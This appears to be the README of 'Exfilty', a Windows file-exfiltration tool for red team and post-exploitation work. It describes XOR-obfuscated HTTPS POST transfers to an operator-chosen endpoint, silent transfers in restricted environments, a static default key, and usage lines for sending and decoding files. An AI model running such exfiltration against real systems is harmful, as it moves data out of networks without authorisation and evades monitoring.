 # Exfilty

**Exfilty** is a lightweight file exfiltration utility for Windows environments, designed for use in controlled environments such as red team operations, malware analysis labs, and post-exploitation research.

The tool performs HTTPS POST-based file transfer to a specified endpoint, applying a simple XOR cipher to obfuscate the file contents in transit.

---

## Features

- Minimal and portable Windows executable
- XOR-based payload encoding (configurable key)
- HTTPS POST with custom User-Agent
- Designed for silent file transfers in restricted environments
- Output fully reconstructable via provided Python script

---

## Usage
```bash
exfilty.exe <https://your_endpoint> <file_to_exfiltrate/transfer>  # BurpSuite Collaborator recommended
```

The tool will read the file, apply XOR encryption using a predefined key, and send the result via HTTPS POST to the specified endpoint.

---

## Encryption Logic

Exfilty uses a symmetric XOR cipher with a static key (`secret123` by default). This key must match on both ends of communication (sender and receiver).

You can reconstruct the original file using the provided `remounter.py` script:

```bash
python3 remounter.py <encrypted_file> <output_file>
